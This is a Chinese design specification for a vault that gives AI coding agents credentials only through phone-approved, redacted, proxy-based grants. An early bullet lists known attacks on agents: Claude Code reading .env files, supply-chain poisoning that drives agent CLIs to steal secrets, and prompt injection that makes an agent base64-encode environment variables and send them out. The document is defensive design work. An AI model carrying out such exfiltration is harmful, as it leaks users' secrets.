| 1Password Environments、`op run`、Claude Code 插件 | 挂载 .env，或者 `op run` 注入子进程并遮掉输出；MCP 只给变量名 | 桌面 app |
| 1Password × NVIDIA OpenShell | agent 只拿到占位符，网关对已批准的域名在一段时间内换成真值 | 桌面 app |
| 1Password Agentic Autofill、1Password for Claude | 只管浏览器登录：凭据直接填进网页，模型只知道「登录了」 | 桌面 app |
| 1Password SSH agent | 按 app、终端会话或单次请求批准 | 桌面 app |
| Bitwarden Agent Access（2026-03，alpha） | Noise 隧道加配对令牌，`aac run` 注入环境变量；OneCLI 在它上面做了代理注入 | CLI 那一端；有没有手机界面、记录、过期，文档里没写 |
| Infisical Agent Proxy、Aembit、Cloak | HTTPS 中间人代理换凭据，带权限和记录 | 管理后台的规则 |
| Keycard、Arcade、Composio | 按 agent 和任务发短期凭据，或者在自己的运行环境里调用、只把结果给模型 | OAuth 授权 |
| Anthropic 安全部署指南 | 建议在沙箱外跑一个注入凭据的代理，agent 看不到凭据 | — |

- 已知的泄漏方式：Claude Code 自己读 `.env`（Knostic，2025-12）；Nx 供应链投毒驱使本机的 claude、gemini CLI 去偷密钥（2025-08）；提示注入让 agent 把环境变量 base64 后发到外面。所以默认用代理，环境变量方式加上短期、遮输出和域名白名单；这一点和 1Password、Anthropic 的做法一致。
- 我们和它们不一样的地方：**在手机上批准**（它们都在桌面、CLI 或者 Slack/Jira 的审批流里批准），**密钥只封给发起申请的这一次使用**，代理和环境变量两种方式都有，批准、过期、记录在同一个流程里，在 chat 里就能看到。
- 没查实的：1Password 有没有在手机上批准 agent 请求的功能（没找到）；Bitwarden Agent Access 的批准界面具体长什么样。

## 实现约定

各部分并行开发，以这一节为准；改这里要同时改三处实现。

### 编码

- 二进制一律 base64url（不带 `=`），公钥 `x25519:<hex>`，签名钥匙沿用锁的 `ed25519:<hex>`、`p256:<b64url>`。
- 要签名、要做附加数据的 JSON 都用锁的 `canonical`（键排序、无空白、只有整数）。
- 签名：`sig = {key, alg, sig}`，和锁的 `Sig` 一样（这一期不收 passkey 签名），签的字节是 `"<标签>\0" + sha256(canonical(去掉 sig 的对象))`（sha256 的 32 个原始字节，不是 hex）。标签：箱钥匙证书 `stillfail-vault-box/1`，库 `stillfail-vault/1`，条目 `stillfail-vault-item/1`，授权 `stillfail-vault-grant/1`，拒绝 `stillfail-vault-deny/1`。

### 封装（seal）

`seal(收件人 x25519 公钥, 明文, 上下文)`：生成临时 X25519 钥匙对，`shared = X25519(临时私钥, 收件人公钥)`，`key = HKDF-SHA256(ikm=shared, salt=临时公钥‖收件人公钥, info="stillfail-vault-seal/1", 32)`，ChaCha20-Poly1305，nonce 12 个 0（每个 key 只用一次），附加数据 = 上下文字符串。结果 `临时公钥(32)‖密文‖tag(16)` 的 base64url。

### 箱钥匙证书

```
BoxCert = {v: 1, ws, device: <锁里设备的基础公钥 hex>, box: "x25519:<hex>", recovery?: "x25519:<hex>", at, sig}   // sig.key 必须是锁里这台设备的 sign_key
```

- 发布在 station 上：`PUT vault/boxes`（body 是证书），`GET vault/boxes` 列出这个 workspace 里锁还认的设备的证书，每台设备留 `at` 最新的一张。谁拿来都行，签名说了算。
- `recovery`（新加的可选字段，在签名里）：这个人恢复码的公钥。他任何一台设备建库时把库钥匙也封给它；第一台设置的设备生成恢复码，之后的设备从同一个人的证书里拿，不再生成。
- 一台设备一把箱钥匙（`vault-box`，各 workspace 共用），每个 workspace 各签一张证书。

### 库

```
Vault = {v: 1, ws, id: "v_<ULID>", seq, owner: <sub>, name, members: [<sub>],
         epoch, keys: [{cert: BoxCert, wrapped: seal(cert.box, 库钥匙(32), "stillfail-vault-key/1\0<ws>\0<id>\0<epoch>")}],
         recovery?: seal(恢复公钥, 库钥匙, 同上上下文), lasts?: "once"|"hour"|"chat"（默认最长授权）, at, sig}
```

- `sig.key` 是锁里 `owner` 的某台 app 设备的 `sign_key`。`owner` 不能变；`seq` 每版加一，station 只收 `seq` 恰好大一的（第一次是 0）。
- `keys` 里每张证书都要验：签名对、设备在锁里、设备属于 `members` 里的人；一台设备一把。`members` 都要在锁里，`owner` 在 `members` 里。
- 比上一版少了人或少了设备，`epoch` 必须变大（station 检查）；`epoch` 不往回走。加设备、加人不换 `epoch`。
- core 也不信 station 给的库：用库钥匙之前验这一版是 owner 的设备签的，封钥匙给证书之前验证书；锁本身由 core 逐条验签和权限（`client/core-ts/src/vault/lock-check.ts`，和 station 的 `apply` 同一套规则），不信 cloud 和 station 拼出来的锁。
- 恢复码：24 个词（BIP-39 英文词表）= 32 字节熵，`恢复私钥 = HKDF-SHA256(熵, info="stillfail-vault-recovery/1")` 当 X25519 私钥用。
- 换 `epoch`（删人、删设备）时重新生成库钥匙，`keys` 全部重包。

### 条目

```
Item = {v: 1, ws, vault, id: "i_<ULID>", version, epoch, deleted?: true,
        ct: <base64url(nonce(12)‖ChaCha20-Poly1305(库钥匙, 明文 JSON, 附加数据))>,
        listing?: {name, kind, modes: ["proxy"|"ssh"|"env"], hosts: [<域名>], env?: <建议的变量名>, lasts?: "once"|"hour"|"chat"（不带：跟随库的）},
        at, sig}
附加数据 = "stillfail-vault-item/1\0<ws>\0<vault>\0<id>\0<version>\0<epoch>"
明文 = {kind: "token"|"ssh_key"|"login", name, fields: {…}, domains: [], notes}
       token: {value}; ssh_key: {private_key(OpenSSH PEM), public_key}; login: {username, password, totp?};
       file: {content(文件的字节，标准 base64), filename?}
```

- 第一版 `version` 是 0。写入时 `epoch` 必须等于库现在的 `epoch`；删除那一版的 `epoch` 不大于它就行。删掉的条目不能再写。

- `sig` 是写入设备的 `sign_key`（锁里的、属于库 `members`）。station 只收 `version` 恰好大一的；删除是写一版 `deleted: true` 的空密文。
- 没有 `listing` 的条目 agent 看不到。`hosts` 支持 `*.example.com`。

### 申请和授权

```
Request（station 生成，存 vault_requests）= {id: "r_<ULID>", ws, vault, item, session, chat, mode, reason,
         command?, hosts?, box: "x25519:<hex>"(keeper 这次的临时公钥), at, status: "pending"|"granted"|"denied"|"expired"}
Grant（批准的设备生成）= {v: 1, ws, request, vault, item, mode, hosts, scope: "once"|"hour"|"chat",
         exp(unix 秒), secret: seal(request.box, 明文 JSON, "stillfail-vault-grant/1\0<ws>\0<request>"), at, sig}
Deny = {v: 1, ws, request, at, sig}
```

- 批准的人必须是库的成员，`sig.key` 是他锁里设备的 `sign_key`。`scope`：`once` 只能用一次（一次 `secret_run`）、`hour` 一小时内、`chat` 这个 chat 归档之前（`exp` 最长 30 天，兜底）。
- 授权号就是 `request` 的 id。只有发起申请的那个 session 能用（MCP 调用本来就按 session 认人，Claude 和 Codex 一样）。

### station 的接口

core → station（走现有的 admin/工作区路由，按锁认出设备和成员）：

| 调用 | 做什么 |
|---|---|
| `GET vault/vaults`、`GET vault/items?vault=` | 列出这个人能看到的库和条目（全量密文；core 按 id 增量存）：`{vaults}`、`{items}`。不带 `vault=` 是他所在的所有库的条目 |
| `PUT vault/vaults`、`PUT vault/items` | 写一版（验签、验 seq/version），回 `{vault}`、`{item}` |
| `GET vault/boxes`、`PUT vault/boxes` | 箱钥匙证书（见上） |
| `GET vault/requests` | 这个人能批准的、还在等的申请 |
| `POST vault/grants`、`POST vault/denials` | 批准、拒绝 |

- 都要 station 钉住了这个 workspace 的锁，否则回 409 `{code: "vault_needs_lock"}`。其他拒绝也带 `code`：`vault_invalid`（400，格式或签名不对，`error` 说为什么）、`vault_conflict`（409，不是下一版，带 station 手上的 `vault`/`item`）、`vault_unknown`（404，没有这个库或不是他的）。core 把 `code` 原样当错误码（`station/requests.ts` 的 `httpError`）。
- 推送（事件流，和其他数据一样，断线续传）：`vault`（一版库，发给它的成员）、`vault-gone` `{id}`（被移出库的人）、`vault-item`（一版条目，发给库的成员）、`vault-box`（证书，发给 workspace 的人）、`vault-request`（申请，状态变了也发，发给库的成员）。
- 旧 station 回 404，core 记成这台不能放库（`vaults` topic 的 `refused`）。

core 的调用（`vault.<名字> {workspace, …}`，`client/core-ts/src/views/vault.ts`）：`setup`（建箱钥匙、发证书；第一次回 24 个词，只回这一次；这个人还没有自己的库就建「个人」库，回 `made`）、`create {name, station?}`、`delete {vault}`（owner 删除自己的库）、`addDevice {vault, device?}`（owner 把库钥匙封给成员新设置的设备；owner 的设备手上有库钥匙时也会自己做）、`putItem {vault, id?, plain, listing?}`、`deleteItem {vault, item}`、`open {item}`、`recover {words}`（用恢复码把这台设备加回自己的库）、`approve {request, scope}`（`once`/`hour` 授权一小时，`chat` 到对话归档、最长 30 天；超出生效 `lasts` 的回 `vault_scope`）、`setLasts {vault, lasts}`（默认最长授权：加锁库由 owner 签一个新版本，明文库发给存着它的 station）、`deny {request}`、`lock`。网页 host 没有 `secure*`，这些调用都回 `vault_unavailable`。这一期只有个人库：加人（`members` 变多）的调用还没做，格式和 station 已经支持。

agent → station（MCP 工具，在 `stillfail` 服务器里）：

| 工具 | 做什么 |
|---|---|
| `secret_list` | 有 `listing` 的条目：id、名字、方式、域名，加上这个 session 手上还能用的授权 |
| `secret_use {item, mode, reason, command?, hosts?}` | 建申请，往这个 chat 发一张申请卡片（库 owner 是 assignee），推送。不等决定，当场回「等批准」（2026-10-30 用户：「密钥存储申请不是异步的，没法在 agent 申请的时候询问其它事项」：工具调用挂着，agent 这一轮就停在那，chat 里别的话都得等它），批准或拒绝时往 session 里发一条消息（正在跑的轮次里直接收到），批准的带授权号和用法；`secret_save`、`phone_use` 同样 |
| `secret_run {grant, command, env?, cwd?, timeout_seconds?}` | station 在 session 的工作目录里 `sh -c` 跑这个命令，按授权的方式给它密钥，返回退出码和遮过的输出（太长时留头 4KB、尾 28KB）。默认 10 分钟超时 |

先不做命令行（`stillfail-secret run`）：要往 agent 的 PATH 里放东西、还要让 Codex 的进程也能证明自己是哪个 session，MCP 工具这两件都现成。以后需要在管道里用再加。

申请卡片就是普通的 options 卡片（「仅本次 / 本对话 1 小时内 / 本对话直到归档 / 拒绝」，只列到条目的 `lasts`，assignee 是库 owner），多一个字段 `vault: {request, name, reason, command?, mode, hosts}`。新客户端看到这个字段就换成批准界面（选项 → 指纹 → `vault.approve`/`vault.deny`），网页和桌面把这条消息画成一张申请卡（web/src/VaultAsk.tsx：条目名、方式、理由、命令，下面是批准行）；老客户端照普通卡片显示，点了只是发一句话，agent 不会因此拿到授权（工具说明里写了只认授权）。批准、拒绝或过期后 station 收回这张卡片，并往这条消息追加一条文字不变的 edit，卡片里加上 `vault.outcome: {status, scope?}`，申请卡底部就换成「已批准 · 仅本次」「已拒绝」「已过期」。卡片底部怎么答由 core 随这条消息一起给（`vaultAsk.answer`：`approve` / `setUp` / `elsewhere`，用的话还有 `lasts`），按它手里常驻的库算，客户端只画消息、不为卡片另订 `vaults`（2026-10-25 用户：「状态常驻在 core 里，ui 只应该找 core 要个状态」）；在这台设备上批了或拒了，core 当场把这张卡片的 `status`/`scope` 改成结果，不等 station 收回卡片。

### keeper

- 在 station 进程里（`station/src/vault/keeper.ts`）：station 把 Grant 原样交给 keeper，keeper 自己验签、用这次申请的临时私钥（只在内存里）解封。
- 代理：`127.0.0.1` 上的 HTTP 代理，`CONNECT` 到授权允许的域名时做中间人（keeper 的 CA，私钥存 station 数据目录 `vault/ca.key`，0600），只在请求头里换占位符；其他 `CONNECT` 原样转发。代理口令（`Proxy-Authorization`）对应一次 `secret_run`，命令结束就作废；没有口令的连接一律 407。明文 HTTP 一律 405，密钥不走明文。
- ssh-agent：每次 `run` 开一个临时 socket，只认这次授权的钥匙，命令结束就关。
- 环境变量方式：station 自己起子进程，stdout/stderr 经 keeper 输出，原值、base64、base64url、URL 编码的写法都换成 `[已隐藏]`（跨块边界也要遮）。

### 设备上的钥匙

- Host 加 `secureGet(key, {user, reason?})`、`secureSet(key, value, {user})`、`secureDelete(key)`（`client/core-ts/src/host.ts`）。只有 app 的 host 有：`BridgeHost` 的 `secure.*`，由各端宿主答（安卓、桌面）；网页 host 没有这三个方法。
- `user: true`：读的时候要人在（生物识别或屏幕锁；Mac 上有 Touch ID 就用 Touch ID），`reason` 显示在提示里；`user: false`：系统加密保存，读时不问人。值按存的时候的 `user` 读：用另一种 `user` 读一律失败，所以要人在的值不会被不问人读出来。
- 失败时 HostError 的 message 就是代码：`user_cancelled`（人取消了）、`no_device_lock`（手机没设屏幕锁，存不了也读不了 `user: true` 的值）、`not_in_front`（app 没有界面在前台，没处弹提示）、`key_invalidated`（安卓：屏幕锁被关掉过，`user: true` 的钥匙作废，存的值再也读不出）。
- 存的东西：`vault-box`（X25519 私钥，`user: true`）、`lock-signer`（`user: false`）。`lock-signer` 已经挪进来（`lock.ts` 的 `Signer`）：host 有 `secureSet` 时先读密封的；没有而普通文件里有，就封进去、读回来核对一样后删掉文件；新建的直接封。没有 `secure*` 的 host 照旧用普通文件。
- 批准一次申请、打开一个条目都要过一次 `user: true` 的读；解开的库钥匙在内存里缓存 5 分钟。

**安卓**（`apps/mbui/android/app/src/main/java/dev/mbui/CoreHost.java`）：`secure.*` 不经 Rust shell，引擎把它们交给宿主的 Java，在自己的线程做完再回答。Keystore 里两把钥匙，有 StrongBox 就放 StrongBox：

- `user: false`：每个值一个文件，在 app 数据目录 `secure/`（文件名是 key 的 UTF-8 十六进制），AES-256-GCM，不要求认证；附加数据是值的名字，一个文件顶替不了另一个。
- `user: true`：RSA-2048（OAEP，SHA-256），私钥每次使用都要认证（生物识别或屏幕锁，`BiometricPrompt` 的 CryptoObject 解锁这一次解密，`reason` 在提示里）。值用一把新的 AES 钥匙加密，AES 钥匙用公钥包起来，所以存的时候不问人、只有读的时候问。没有屏幕锁存不了；屏幕锁去掉后钥匙作废（`key_invalidated`）。文件在 `secure-user/`：版本字节 `1`、`1`、包好的钥匙长度(2，大端)‖包好的钥匙‖IV(12)‖GCM 输出，附加数据写明 key 和 `user`。
- 提示用系统的 `android.hardware.biometrics.BiometricPrompt`（minSdk 29 就有），弹在前台的那个 activity 上。
- 2026-10-24 以前的安卓 app 是 Kotlin 写的，存在 `files/stillfail-sealed/<key>`。新 app 用同一个包名接替它，第一次要某个 key 时把那份读出来（`CoreHost.java` 的 `former`）。

**桌面**（mbui 的 app，`apps/mbui`）：`secure.*` 由宿主答，每个值按 key 和 `user` 分开存，只能按存时的 `user` 读出。

- macOS（`apps/mbui/src/host/apple_core.mm`）：钥匙串里的通用密码，开机解锁后才能读，从不弹钥匙串对话框。`user: true` 的值先过系统的设备主人验证（LocalAuthentication：Touch ID 或系统密码，`reason` 在提示里），没设系统密码时存不了（`no_device_lock`）。这一关是钥匙串之前 app 自己的检查，不是钥匙串强制的。
- Windows（`win_core.c`）：DPAPI 按这个 Windows 用户加密，存成 `<data>\secure` 里的文件；还不问人（没接 Windows Hello），`user: true` 只等于「登录了这台电脑的系统账号」。
- Linux（`linux_core.c`）：Secret Service（GNOME Keyring、KWallet）；没有时存成只有本用户能读的 `<data>/secure` 文件。也不问人。
- 2026-10-26 以前的桌面版是 Electron 的，用 `safeStorage` 加密存在 `userData/sealed/<key>`。新 app 在它的位置上用它的数据目录，第一次要某个 key 时把那份读出来（`apps/mbui/src/host/electron_sealed.h`、`win_electron_sealed.h`）。

## 分期

| 期 | 内容 | 前提 |
|---|---|---|
| 0 | 锁的签名钥匙和箱钥匙放进系统钥匙串；箱钥匙证书；恢复码 | 锁已上线 |
| 1 | 库和条目的存储、同步、签名的成员变化；app 里能建库、加 token 和 SSH 钥匙 | 0 |
| 2 | keeper、`secret_list`/`secret_use`、申请卡片、代理、ssh-agent、记录 | 1 |
| 3 | 环境变量方式；把 station 自己的 Slack token、API key profile 挪进库里（老的继续能用） | 2 |
| 4 | 人用的密码页、安卓自动填充和 passkey、导入 | 1 |
| 5 | 浏览器扩展 | 4 |

## 兼容

- 锁不改。旧客户端没有箱钥匙证书，就不能加入库，库页面提示升级。
- 旧 station 不认识 `vault.*` 调用，回 404，库页面把它列成「这台 station 不能放库」。
- 新表都是 `IF NOT EXISTS`；core 的新 topic 和视图同包发布。

## 还没定

- 一个 workspace 默认建一个「共享」库，还是每人一个「个人」库加按需建共享库（1Password 的做法是后者）。
- 代理模式的 CA：每个会话一个，还是每台 station 一个。每个会话一个更干净，但要在 agent 启动时就生成，并写进它的环境变量。
- 已经在用 1Password、Bitwarden 的人：要不要把它们当成「来源」接进来，也就是 agent 的申请由手机上的 still.fail app 批准，值从对方的库里取。好处是不用搬家，坏处是要做对方的 SDK，零知识也得由对方保证。
- ~~agent 能不能自己写入库~~：能，要人批准（见「agent 存入」）。
